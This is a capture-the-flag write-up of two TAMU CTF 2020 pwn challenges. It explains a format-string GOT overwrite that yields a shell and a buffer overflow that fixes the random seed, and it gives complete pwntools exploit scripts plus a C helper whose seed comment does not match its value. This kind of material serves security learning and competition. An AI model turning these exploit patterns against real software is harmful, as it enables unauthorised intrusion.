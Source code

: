 ```yaml
---
title: TAMU CTF 2020 - Pwn Writeups
summary:
date: "2020-03-30T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


## **B64DECODER (244pts)** ##

![TASK](https://imgur.com/ZVHG4PA.png)

This is wont be a detailed writeup , however in this task we have a clear format string vulnerability (line 23) and a leak of a64l function address 

![TASK](https://imgur.com/EIv7uYX.png)

The idea is to overwrite the GOT entry of a64l function with the address of system in libc (not system@plt) using the format string vulnerability , it's also a partial overwrite because we have a limited length of input (32 characters) and using the leaked address of a64l we can easily know the address of system function , here is my exploit :

```python
from pwn import *
import struct
import sys
def pad(str):
        return str+"X"*(32-len(str))
payload=""
#p=process("./b64decoder")
p=remote("challenges.tamuctf.com",2783)
d=p.recvuntil("name!")
A64Ladd=d[:-18][-10:]
TOWRITE="0x"+A64Ladd[-4:]
sys=int(TOWRITE,16)-1680-4  #A64l-0x690
log.info(TOWRITE)
log.info(sys)
A64L_PLT=0x804b398
a64lADD=p32(A64L_PLT)
payload+=a64lADD
payload+="%"+str(sys)+"x%71$hn"
log.info("payload crafted")
p.sendline(payload)
log.info("Sent , Haaaw el shell")
p.interactive()

```
And Bingo we got our shell :D

![TASK](https://imgur.com/jd78uIm.png)

**NOTE:** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/B64DECODER) **

## **TROLL (50pts)** ##

![TASK](https://imgur.com/AgJ7rGR.png)

In this task we are supposed to win a game by guessing the next 100 random numbers , looking at the source code we can see the vulnerable gets function , after that we are setting the seed
value to the time and finally the beginning of the loop and generating the random numbers and questions each time .

![MAIN](https://imgur.com/AApFQgK.png)

My idea was to overwrite the seed value with our own value than BINGO we can generate the next random numbers and win the game , i have done things manually , i entered a unique seaquence and than observed with gdb if i have overwritten where the seed value is stored 

My input :
> AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

![TASK](https://imgur.com/XqjEzZQ.png)

I have entered a sequence of alphabet characters and stopped in the call of srand function , you can see te RDI register(where the 1st argument passed to a function is stored)  hold the value of "MMMM"
so if we replace "MMMM" with the value we want , this value will be the seed for the random numbers.

I have written this little C program to generate 100 random numbers using our chosen seed and stored them in a file :
```c
#include<stdlib.h>
#include<stdio.h>
#include<time.h>

int main(int argc, char *argv[]){
    int i=0;
int seed=3472328296227680305    //0x1000 in decimal
srand(seed);
for(i=0;i<=99;i++){
    int a=rand()% 100000 + 1;
    printf("%d\n",a);  
} 
 return 0;
}
```

After that i have written this exploit to overwrite the seed value with 0x1000 and answer the questions using the numbers we have generated 

```python
from pwn import *
#p=process("./troll")
p=remote("challenges.tamuctf.com",4765)
p.recvuntil("Who goes there?")
SEED="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1000"
p.sendline(SEED)
log.info("Sent First payload")
answers=open("answer","r")
for line in answers:
        p.recvuntil("What is it?")
        log.info("sending answer: "+line)
        p.sendline(line)
p.interactive()

```
Note: the offset in the remote server is different, so i had to guess it xD However we got our flag : 

![MAIN](https://imgur.com/QjwTHDR.png)

**NOTE:** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/TROLL) **

This is the first time writing a pwn writeup so i hope you enjoyed it , any questions you can find me on twitter @BelkahlaAhmed1

